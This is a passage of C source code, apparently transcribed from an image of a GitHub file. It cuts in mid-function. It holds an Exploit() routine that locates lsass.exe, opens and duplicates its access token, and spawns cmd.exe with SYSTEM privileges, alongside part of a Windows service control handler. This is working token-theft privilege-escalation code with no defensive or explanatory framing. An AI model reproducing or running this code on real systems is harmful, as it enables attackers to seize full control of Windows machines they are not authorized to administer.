 ```c
    }

    CloseHandle(hProcSnap);

    return pid;
}


int Exploit(void) {

    HANDLE hSystemToken, hSystemProcess;
    HANDLE dupSystemToken = NULL;
    HANDLE hProcess, hThread;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;
    int pid = 0;


    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    // open high privileged process
    if ( pid = FindTarget("lsass.exe") ) 
        hSystemProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
    else
        return -1;

    // extract high privileged token
    if (!OpenProcessToken(hSystemProcess, TOKEN_ALL_ACCESS, &hSystemToken)) {
        CloseHandle(hSystemProcess);
        return -1;
    }

    // make a copy of a token
    DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupSystemToken);    

    // and spawn a new process with higher privs
    CreateProcessAsUserA(dupSystemToken, "C:\\windows\\system32\\cmd.exe", 
                        NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

    return 0;
}


void WINAPI ServiceControlHandler( DWORD controlCode ) {
    switch ( controlCode ) {
        case SERVICE_CONTROL_SHUTDOWN:
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
            SetServiceStatus( serviceStatusHandle, &serviceStatus );

            SetEvent( stopServiceEvent );
            return;

        case SERVICE_CONTROL_PAUSE:
            break;

        case SERVICE_CONTROL_CONTINUE:
            break;

        case SERVICE_CONTROL_INTERROGATE:
```